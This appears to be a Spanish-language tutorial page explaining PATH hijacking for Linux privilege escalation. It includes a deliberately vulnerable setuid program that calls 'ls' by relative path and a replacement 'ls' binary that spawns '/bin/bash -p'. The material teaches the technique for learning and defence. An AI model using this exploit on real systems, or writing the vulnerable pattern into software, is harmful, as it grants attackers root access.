# Path Hijacking

El Path Hijacking es una técnica de escalada de privilegios, que si se combinan con, por ejemplo, el privilegio SUID o sudo, puede llegar a ser peligrosa.

## Conceptos importantes

La ruta absoluta es la ruta completa que comienza con el directorio raíz (/) y llega hasta el archivo o el directorio solicitado. Para conocer la ruta absoluta de un archivo o directorio, ejecute rápidamente el comando pwd, y se le mostrará la ruta completa.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Las rutas absolutas no cambian cuando cambia el directorio actual. Piensa en ellas como rutas codificadas, mientras que las rutas relativas son rutas dinámicas que cambian dependiendo de la ubicación actual del directorio de trabajo.

La idea que hay detrás del Path Hijacking es abusar del path para poder controlar el binario que se ejecuta al llamar a un binario con su ruta relativa.

Veámoslo mejor con un ejemplo:

```c
#include <stdio.h>

int main(){

    setuid(0);
    printf("[*] Mostrando el contenido del directorio actual usando /usr/bin/ls\n");
    system("/usr/bin/ls");

    printf("[*] Mostrando el contenido del directorio actual usando ls\n");
    system("ls");

    return 0;
}

```

Si lo ejecutamos sin modificar el path, obtenemos la siguiente salida:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Ahora vamos a modificar el path poniendo como primera ruta un directorio donde tenemos capacidad de escritura y ahí vamos a crear un binario que se llame ls que va a ser el que se ejecute cuando se haga la llamada a `system("ls");`

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

Ahora, creamos en /tmp/test un binario llamado ls:

```c
#include <stdio.h>

int main(){

    system("/bin/bash -p");

    return 0;
}
```

De esta forma, al haber modificado el PATH, se ejecutará primero nuestro binario controlado y obtendremos una instancia de /bin/bash:

<figure><img src="../../../.gitbook/assets/image (2) (2) (2).png" alt=""><figcaption></figcaption></figure>

